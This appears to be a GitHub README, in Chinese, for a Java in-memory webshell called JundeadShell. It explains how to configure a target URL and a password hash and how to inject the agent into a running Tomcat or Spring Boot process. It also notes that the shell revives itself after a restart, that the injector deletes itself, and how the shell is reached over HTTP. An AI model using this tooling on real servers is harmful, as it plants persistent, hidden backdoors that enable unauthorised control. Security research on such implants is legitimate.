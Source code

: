 # JundeadShell
***
> 一个可以复活的Java内存马
***
### Usage
1.先根据环境修改配置文件
>配置文件位置在: agent_starter.jar内部config目录下
>```
># 目标url IP地址可以是127.0.0.1。在web应用关闭时，会挂起一个新进程用于监听。当web应用重新启动后，会自动重新注入。
>target_url=http://127.0.0.1:80/
># 连接密码的md5值 默认密码:Jundead
>password=AC9A489BB6873C5FB760370FD62A793E
># 调试模式 开启后会在当前目录创建日志文件，也会在目标web服务中打印少量日志信息。
>debug=false
>```

2.列出Java进程列表
>`java -jar agent_starter.jar list`

3.根据进程名注入
>`java -jar agent_starter.jar <displayName> <tomcat_version>`
>
>举例：`java -jar agent_starter.jar "SpringbootDemo.jar" 9`
>
>注入进程的displayName是SpringbootDemo.jar，使用的tomcat_version是9。
>
> PS: tomcat容器的进程名一般是："org.apache.catalina.startup.Bootstrap start"
>
> 注入成功后会自动删除自身。

4.连接webshell
>浏览器访问http://x.x.x.x/xxx?password=密码
***
### FAQ
- 注入成功了，但webshell不生效？
>如果注入目标是Tomcat容器的应用，连接webshell的url必须是能够正常访问的url。
>如果注入目标是springboot框架应用，连接webshell的url可以是任意url。
***
### Disclaimers
该项目仅供学习、研究之用，禁止用于非法用途。
